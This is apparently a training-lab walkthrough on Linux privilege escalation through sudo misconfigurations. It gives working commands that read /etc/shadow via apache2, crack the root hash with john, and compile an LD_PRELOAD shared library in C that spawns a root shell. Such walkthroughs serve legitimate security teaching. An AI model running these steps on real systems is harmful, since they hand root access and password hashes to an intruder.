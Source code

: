 `No answer needed`

## Privilege Escalation - Sudo (Abusing Intended Functionality)

**Detection**

**Linux VM**

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via sudo.

**Exploitation**

**Linux VM**

1. In command prompt type: `sudo apache2 -f /etc/shadow`
2. From the output, copy the root hash.

**Attacker VM**

1. Open command prompt and type: `echo '[Pasted Root Hash]' > hash.txt`
2. In command prompt type: `john --wordlist=/usr/share/wordlists/nmap.lst hash.txt`
3. From the output, notice the cracked credentials.

---

1. Click 'Completed' once you have successfully elevated the machine

`No answer needed`

## Privilege Escalation - Sudo (LD_PRELOAD)

**Detection**

**Linux VM**

1. In command prompt type: `sudo -l`
2. From the output, notice that the LD_PRELOAD environment variable is intact.

**Exploitation**

1. Open a text editor and type:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

2. Save the file as `x.c`
3. In command prompt type: `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
4. In command prompt type: `sudo LD_PRELOAD=/tmp/x.so apache2`
5. In command prompt type: `id`

---